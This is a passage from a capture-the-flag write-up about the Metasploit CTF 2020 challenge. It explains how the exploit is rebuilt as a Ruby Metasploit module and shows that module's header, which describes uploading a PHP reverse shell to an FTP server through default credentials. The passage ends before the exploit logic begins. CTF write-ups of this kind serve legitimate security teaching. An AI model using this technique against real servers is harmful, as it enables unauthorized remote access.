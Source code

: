 <center><img src = "/assets/images/metasploitctf2020/tcpstream2.png"></center>

With all this information, we can piece everything together in order reconstruct the exploit in a Metasploit module.

We'll start with the standard heading of a Metasploit module and define that we want to include both a TCP and HttpClient since we will be interacting with both an FTP server and we also want to make a web request in order to execute our PHP payload. We also set the "Platform" and "Arch" to PHP as this is the kind of payload we will want to deliver.

```ruby
class MetasploitModule < Msf::Exploit::Remote
    Rank = ExcellentRanking
  
    include Msf::Exploit::Remote::Tcp
    include Msf::Exploit::Remote::HttpClient
  
  
    def initialize(info = {})
      super(update_info(info,
        'Name'           => 'Metasploit CTF 2020 FTP PHP Reverse Shell Upload Exploit',
        'Description'    => %q{
            This module exploits a vsFTP server with default 
            credentials in order to upload a PHP reverse shell 
            into a web directory as seen in the Metasploit CTF 2020 5 of
            Club challenge. 
        },
        'Author'         =>
          [
            'Keramas', # Neutrino Cannon CTF/HTB Team
            'Metasploit CTF 2020 FTP PHP Reverse Shell Upload Exploit' # Metasploit module
          ],
        'License'        => MSF_LICENSE,
        'References'     =>
          [
            [ 'CVE', 'None' ],
            [ 'EDB', 'None' ]
          ],
        'Privileged'     => false,
        'Platform'       => [ 'php' ],
        'Arch'           => ARCH_PHP,
        'Targets'        =>
          [
            [ 'Automatic', { } ]
          ],
        'DisclosureDate' => '2020-12-04',
        'DefaultTarget' => 0))
```